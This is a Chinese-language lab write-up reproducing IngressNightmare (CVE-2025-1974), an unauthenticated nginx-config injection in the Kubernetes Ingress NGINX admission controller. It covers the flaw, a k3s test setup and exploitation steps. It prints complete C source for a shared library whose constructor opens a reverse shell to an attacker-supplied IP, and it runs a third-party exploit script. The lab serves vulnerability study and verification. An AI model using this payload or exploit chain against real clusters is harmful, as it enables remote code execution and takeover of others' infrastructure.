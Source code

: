# IngressNightmare：Kubernetes Ingress 未经身份验证的远程代码执行漏洞（CVE-2025-1974）



Ingress-Nightmare 漏洞的核心问题在于 Ingress Nginx Controller 的准入控制器（Admission Controller）存在缺陷。准入控制器是 Kubernetes 的内部安全机制，用于在部署传入的入口对象之前对其进行验证。然而，该控制器无需身份验证即可通过网络访问，攻击者可以利用这一特性，向准入控制器发送恶意的 `AdmissionReview` 请求



需要特别说明的是， 如果要造成任意命令执行需要配合其他漏洞组合，例如下面的几个组合方式：

| CVE-2025-1974 + CVE-2025-24514 | 通过 auth-url 注释注入RCE          |
| ------------------------------ | ---------------------------------- |
| CVE-2025-1974 + CVE-2025-1097  | 通过 auth-tls-match-cn 注释注入RCE |
| CVE-2025-1974 + CVE-2025-1098  | 通过镜像 UID 注入RCE               |

## 漏洞原理

攻击者通过构造恶意的 `AdmissionReview` 请求，可以注入任意的 Nginx 配置指令。这些指令会在配置验证阶段被 `nginx -t` 命令触发执行[^1]。例如，攻击者可以注入 `ssl_engine` 指令，该指令会加载指定的动态链接库。



更多细节参考：

* IngressNightmare: CVE-2025-1974 - 9.8 Critical Unauthenticated Remote Code Execution Vulnerabilities in Ingress NGINX[^2]
* Ingress-nginx CVE-2025-1974: What You Need to Know[^3]

## 漏洞环境

启动 k8s 环境， 这里我方便使用 k3s 进行替代：

```bash
docker compose up -d
```

等待一段时间后环境启动成功， 使用 `docker exec` 子命令进入到容器内部执行 `./exploit/init.sh`

```sh
$ docker ps -a  |grep k3s
b26496088394   rancher/k3s:v1.29.1-k3s1   "/bin/k3s server"        3 minutes ago   Up 3 minutes                0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:443->443/tcp, :::443->443/tcp   cve-2025-1974-k3s-1

# swing @ sw in ~/Desktop/vulhub/ingress-nginx/CVE-2025-1974 on git:master x [16:49:44]
$ docker exec -it cve-2025-1974-k3s-1 sh
/ # sh ./exploit/init.sh
...
root@exploit-pod:/# 
```

当成功初始化后，会进入到一个名为exploit-pod的容器里。

## 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。动态链接库源码：

```C
  #include <unistd.h>

  #include<stdio.h>
  #include<stdlib.h>
  #include<unistd.h>
  #include<sys/socket.h>
  #include<netinet/in.h>
  #include<arpa/inet.h>


  __attribute__((constructor)) static void reverse_shell(void)
  {
      char *server_ip="xxxx";
      uint32_t server_port=7788;
      int sock = socket(AF_INET, SOCK_STREAM, 0);
      struct sockaddr_in attacker_addr = {0};
      attacker_addr.sin_family = AF_INET;
      attacker_addr.sin_port = htons(server_port);
      attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
      system("touch /tmp/hacked");
      if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
          exit(0);
      dup2(sock, 0);
      dup2(sock, 1);
      dup2(sock, 2);
      char *args[] = {"/bin/sh", NULL};
      execve("/bin/sh", args, NULL);
  }
```
修改 server_ip 为你的服务器 IP ，或者进一步修改该源代码， 可以参考 [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main) [^4]这个 Github 仓库，或者直接使用他的环境进行编译。将编译后的 shell.so 拷贝到 ./exploit 目录下。

然后，我们在 exploit-pod 里，切到 exploit 目录， 执行利用代码。该利用代码来自于 [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main)Github仓库[^5]。
```
cd /exploit
python3 exploit.py
```
可见， 我们成功在 ingress-nginx 的 pod 的 /tmp/ 目录成功创建了 hacked 文件

![](1.jpg)	

## 参考链接

[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main
